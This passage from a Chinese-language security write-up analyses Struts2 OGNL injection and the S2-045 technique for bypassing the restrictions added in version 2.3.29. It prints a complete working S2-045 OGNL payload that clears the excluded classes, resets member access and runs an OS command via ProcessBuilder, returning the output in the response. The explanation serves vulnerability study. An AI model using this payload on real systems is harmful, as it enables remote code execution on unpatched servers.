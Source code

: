 简单来说，整个过程从报错开始存入OGNL表达式，再生成错误信息的时候计算了OGNL表达式

到了这里执行可控的OGNL表达式是第一步，因为2.3.29增加了对`#_memberAccess=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS`的限制

需要一种新的思路来绕过，S2-045的POC就给我们提供这样一个思路

### POC

```java
%{
(#_='multipart/form-data').
(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).
(#_memberAccess?(#_memberAccess=#dm):
		(
		(#container=#context['com.opensymphony.xwork2.ActionContext.container']).
		(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).
		(#ognlUtil.getExcludedPackageNames().clear()).
		(#ognlUtil.getExcludedClasses().clear()).
		(#context.setMemberAccess(#dm)))).
(#cmd='id').
(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).
(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).
(#p=new java.lang.ProcessBuilder(#cmds)).
(#p.redirectErrorStream(true)).
(#process=#p.start()).
(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).
(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).
(#ros.flush())
}
```

主要看5-10行，一开始的思路是直接用赋值的方式来覆盖存在限制的SecurityMemberAccess，但是现在有了`excludedClasses`的限制不能直接用这种方式来达成（具体看`SecurityMemberAccess.isAccessible`）。

那么就看看能不能用setters去设置`SecurityMemberAccess`

这里就看`ognl.OgnlContext#setMemberAccess`，而这个context就是我们在OGNL表达式里用`#context`表示的

那么直接用`#context.setMemberAccess(@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS)`就可以覆盖原有的MemberAccess，但是因为`#context`本身就是被禁止的类，我们不能直接调用他。

我们需要首先去除掉`ExcludedPackageNames`和`ExcludedClasses`

来看看他是怎么设置的`com.opensymphony.xwork2.ognl.OgnlValueStack#setOgnlUtil`

![image-20200521172344561](/images/talk_about_struts2/image-20200521172344561.png)

可以看到`securityMemberAccess`的相关禁用设置都是来自于`ognlUtil`，这意味着我们只需要清除掉`ognlUtil`的禁用设置就可以消除掉`securityMemberAccess`的限制。这是因为在jvm里面他们用的都是同一个实例。
